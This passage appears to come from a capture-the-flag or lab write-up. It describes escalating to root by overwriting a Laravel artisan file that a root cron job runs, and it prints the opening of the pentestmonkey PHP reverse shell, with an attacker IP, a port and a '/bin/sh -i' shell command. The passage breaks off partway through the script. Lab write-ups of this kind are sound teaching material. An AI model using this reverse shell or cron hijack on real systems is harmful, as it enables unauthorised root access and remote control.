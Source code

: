 Once executed the script we can see that the **cron job** is executing the following command

```bash
/bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

This **bash command** is running **php** file at the **laravel directory**, as we know the cron jobs are executed as root so we only need to change the content of the artisan file in order to put a [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.20';  // CHANGE THIS
$port = 4445;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

```